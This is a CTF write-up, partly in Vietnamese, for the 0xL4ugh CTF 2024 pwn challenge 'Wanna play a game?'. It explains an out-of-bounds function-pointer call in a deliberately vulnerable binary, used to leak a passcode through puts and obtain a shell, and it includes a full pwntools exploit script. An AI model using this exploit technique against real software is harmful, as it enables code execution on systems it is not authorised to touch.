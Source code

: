 ```yaml
---
title: [WRITE UP] - 0xL4ugh CTF 2024 - Wanna play a game?
published: 2024-12-01
description: "Write up for Wanna play a game challenge"
tags: ["PWN", "2024"]
category: CTF Writeups
draft: false
---
```

## General Infomation

```c
[*] '/home/alter/CTFs/0xlaugh/pwn/wanna_play_a_game/public/chall'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

- **main()**

    ```c
    int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
    {
      __int64 v3; // [rsp+0h] [rbp-10h]
      __int64 v4; // [rsp+8h] [rbp-8h]

      setup(argc, argv, envp);
      printf("[*] NickName> ");
      if ( read(0, &username, 0x40uLL) == -1 )
      {
        perror("READ ERROR");
        exit(-1);
      }
      while ( 1 )
      {
        menu();
        v3 = read_int();
        printf("[*] Guess>");
        v4 = read_int();
        ((void (__fastcall *)(__int64))conv[v3 - 1])(v4);
      }
    }

    ```

- **easy()**

    ```c
    int __fastcall easy(__int64 a1)
    {
      if ( a1 == rand() )
        return printf("[+] NICE GUESS!!\n[*] Current Score: %lu\n", score);
      else
        return puts("[-] WRONG GUESS :(");
    }
    ```

- **hard()**

    ```csharp
    unsigned __int64 __fastcall hard(__int64 a1)
    {
      int i; // [rsp+14h] [rbp-2Ch]
      char path[8]; // [rsp+2Fh] [rbp-11h] BYREF
      char v4; // [rsp+37h] [rbp-9h]
      unsigned __int64 v5; // [rsp+38h] [rbp-8h]

      v5 = __readfsqword(0x28u);
      strcpy(path, "<qz}<`{");
      v4 = 0;
      for ( i = 0; i <= 6; ++i )
        path[i] ^= 0x13u;
      if ( a1 == passcode )
      {
        puts("[+] WINNNN!");
        execve(path, 0LL, 0LL);
      }
      else
      {
        puts("[-] YOU ARE NOT WORTHY FOR A SHELL!");
      }
      change_passcode();
      return v5 - __readfsqword(0x28u);
    }
    ```

- **read_int()**

    ```c
    __int64 read_int()
    {
      __int64 buf[6]; // [rsp+0h] [rbp-30h] BYREF

      buf[5] = __readfsqword(0x28u);
      memset(buf, 0, 32);
      printf("> ");
      if ( read(0, buf, 0x20uLL) == -1 )
      {
        perror("READ ERROR");
        exit(-1);
      }
      return atol((const char *)buf);
    }
    ```

- **change_passcode()**

    ```c
    int change_passcode()
    {
      int fd; // [rsp+Ch] [rbp-4h]

      fd = open("/dev/random", 0);
      if ( fd < 0 )
      {
        perror("OPEN ERROR");
        exit(-1);
      }
      if ( read(fd, &passcode, 8uLL) == -1 )
      {
        perror("READ ERROR");
        exit(-1);
      }
      puts("[*] PASSCODE CHANGED!");
      return close(fd);
    }
    ```


Flow của ELF được cấu trúc như sau:

1. **Nhập username**: Người dùng nhập tên của mình.
2. **Chọn chức năng**: Người dùng chọn một trong hai chế độ (`easy` hoặc `hard`).
3. **Nhập số để đoán**: Người dùng nhập giá trị dự đoán.
4. **Gọi hàm tương ứng**: Chế độ được chọn (`easy` hoặc `hard`) sẽ được gọi thông qua mảng `conv[]`.
5. **Quay lại bước 2**: Chu trình tiếp tục lặp lại.

Khi phân tích qua mã decompile, ta thấy rằng cả `username` và mảng `conv[]` đều được khởi tạo trước khi hàm `main` chạy và nằm trong `.data` section. Với điều kiện **No PIE** (Position Independent Executable bị tắt), địa chỉ của các biến này là cố định. Điều này cho phép ta kiểm soát hoặc tận dụng một trong hai (hoặc cả hai) biến để khai thác chương trình, mở ra nhiều khả năng tấn công dựa trên việc thao túng `.data` section.

Tại `conv` :

```nasm
.data:0000000000404010                 public conv
.data:0000000000404010 conv            dq offset easy          ; DATA XREF: main+A8↑o
.data:0000000000404010                                         ; main+AF↑r
.data:0000000000404010                 dq offset hard
```

Mảng `conv[]` chứa hai địa chỉ hàm: `easy` và `hard`. Khi người dùng chọn chế độ, chương trình sẽ gọi hàm tương ứng thông qua `conv` bằng cách sử dụng cú pháp `conv[input - 1](v4)`. Ở đây, `input - 1` xác định index trong mảng `conv`, tương ứng với `1` (easy - index `0`) và `2` (hard - index `1`). Biến `v4` được truyền làm tham số cho hàm được gọi. Cách triển khai này phụ thuộc hoàn toàn vào giá trị nhập từ người dùng để xác định hàm nào sẽ được thực thi, tạo cơ hội cho việc khai thác nếu người dùng có thể kiểm soát hoặc ghi đè dữ liệu trong mảng `conv`

Như vậy, chương trình tồn tại lỗi **Out-Of-Bounds (OOB)** khi gọi `conv[input - 1](v4)` mà không kiểm tra giá trị của `input`. Điều này cho phép người dùng nhập các giá trị ngoài phạm vi hợp lệ (khác 1 và 2), dẫn đến việc gọi địa chỉ bất kỳ. Kết hợp với khả năng kiểm soát biến `username`, ta có thể chỉnh sửa nội dung của `username` để chứa một địa chỉ hợp lệ. Sau đó, chương trình có thể bị điều hướng để gọi vào địa chỉ đó, mở ra khả năng khai thác. Bên cạnh đó còn có **Bad Seed khi** chương trình sử dụng `srand(time(0))` để tạo seed cho việc sinh passcode ngẫu nhiên. Tuy nhiên, với `rand()`, giá trị này có thể được dự đoán nếu thời gian chạy chương trình được biết. Dù vậy, tính năng này chỉ được sử dụng trong chế độ `easy`, và không có ý nghĩa quan trọng trong khai thác hiện tại nên có thể bỏ qua.

## Leak libc

Theo intended solution, mục tiêu là nhập đúng passcode mà binary đã khởi tạo mỗi khi chạy `main`. Để đạt được điều này, ta có thể lợi dụng hàm `puts(char *s)` để leak dữ liệu từ biến `passcode`. Vì `passcode` được khởi tạo trước khi `main` chạy và nằm trong `.data` section, ta có thể khai thác bằng cách làm như sau:

1. **Chọn địa chỉ cần leak**: Biến `passcode` có địa chỉ cố định (do No PIE), và nội dung của nó có thể được truy cập trực tiếp.
2. **Gọi `puts` với địa chỉ tùy chỉnh**: Bằng cách điều hướng một hàm hoặc mảng (như `conv[]`) để gọi `puts` với tham số là địa chỉ của `passcode`, chương trình sẽ in ra giá trị của nó.

```python
passcode_address = 0x404060
puts_plt = exe.plt.puts

sa(b'[*] NickName> ', p64(puts_plt))
sla(b'> ', b'15') # offset / 8 từ conv -> passcode
sa(b'>', str(passcode_address).encode())

ru(b'> ')
# print(ru(b'\n'))
passcode = u64(ru(b'\n').strip())
print(f'Passcode leak: {passcode}')
```

## Get shell

Nhập `passcode` ta leak được là đã có được shell:

```python
sla(b'> ', b'2')
sa(b'>', str(passcode).encode())
```

- Full payload

    ```python
    #!/usr/bin/python3
    from pwncus import *

    # context.log_level = 'debug'
    exe = context.binary = ELF('./chall', checksec=False)

    def GDB(): gdb.attach(p, gdbscript='''

    c
    ''') if not args.REMOTE else None

    p = remote('', ) if args.REMOTE else process(argv=[exe.path], aslr=False)
    set_p(p)
    if args.GDB: GDB(); input()

    # ===========================================================
    #                          EXPLOIT
    # ===========================================================

    passcode_address = 0x404060
    puts_plt = exe.plt.puts

    sa(b'[*] NickName> ', p64(puts_plt))
    sla(b'> ', b'15')
    sa(b'>', str(passcode_address).encode())

    ru(b'> ')
    # print(ru(b'\n'))
    passcode = u64(ru(b'\n').strip())
    print(f'Passcode leak: {passcode}')

    sla(b'> ', b'2')
    sa(b'>', str(passcode).encode())
    interactive()
    ```
